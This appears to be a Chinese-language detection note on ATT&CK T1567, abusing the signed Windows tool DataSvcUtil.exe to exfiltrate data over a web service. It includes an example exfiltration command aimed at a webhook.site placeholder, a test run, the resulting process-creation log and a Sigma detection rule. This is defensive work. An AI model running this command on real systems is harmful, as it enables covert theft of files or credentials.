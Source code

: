 # T1567-Win-通过Web服务进行渗透-DataSvcUtil.exe(白名单)

## 来自ATT&CK的描述

攻击者可能使用现有的合法外部Web服务而不是他们的主要命令和控制通道来窃取数据。 由于网络中的主机可能在受到攻击之前已经与它们进行通信，因此流行Web服务可能充当渗漏机制的提供大量掩护。 防火墙规则也可能已经存在以允许这些服务的流量。

Web服务提供商通常也使用SSL/TLS加密，为攻击者提供更高级别的保护。

## 测试案例

DataSvcUtil.exe是WCF数据服务提供的命令行工具，它使用开放数据协议(OData)源，并生成从.NET Framework客户端应用程序访问数据服务所需的客户端数据服务类。

路径：

```yml
- C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
```

一般上传文件、凭据或数据泄露:

```yml
DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://webhook.site/xxxxxxxxx?encodedfile
```

用例：上传文件
所需权限：用户
操作系统：Windows 10

## 检测日志

Windows 安全日志

## 测试复现

```yml
C:\Windows\Microsoft.NET\Framework64\v3.5>DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://www.baidu.com/
Microsoft (R) DataSvcUtil 版本 3.5.0.0
版权所有 (C) 2008 Microsoft Corporation。保留所有权利。

正在写入对象层文件...
错误 7001: 远程服务器返回错误: (404) 未找到。

生成已完成 -- 1 个错误，0 个警告
```

## 日志留痕

```yml
已创建新进程。
创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x2260

新进程名称: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x24b4

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: DataSvcUtil  /out:C:\\Windows\\System32\\calc.exe /uri:https://www.baidu.com/
```

## 检测规则/思路

参考Sigma官方规则：

```yml
title: LOLBAS Data Exfiltration by DataSvcUtil.exe

id: e290b10b-1023-4452-a4a9-eb31a9013b3a

status: experimental

author: Ialle Teixeira @teixeira0xfffff, Austin Songer @austinsonger

date: 2021/09/30

description: Detects when a user performs data exfiltration by using DataSvcUtil.exe

references:

- https://gist.github.com/teixeira0xfffff/837e5bfed0d1b0a29a7cb1e5dbdd9ca6

- https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/wcf-data-service-client-utility-datasvcutil-exe

- https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/generating-the-data-service-client-library-wcf-data-services

- https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/how-to-add-a-data-service-reference-wcf-data-services

tags:

- attack.exfiltration

- attack.t1567

logsource:

category: process_creation

product: windows

detection:

selection:

CommandLine|contains|all:

- '/in:'

- '/out:'

Image|endswith:

- '\DataSvcUtil.exe'

condition: selection

fields:

- ComputerName

- User

- CommandLine

- ParentCommandLine
```

## 参考推荐

MITRE-ATT&CK-T1567

<https://attack.mitre.org/techniques/T1567>

DataSvcUtil.exe

<https://lolbas-project.github.io/lolbas/Binaries/DataSvcUtil/>
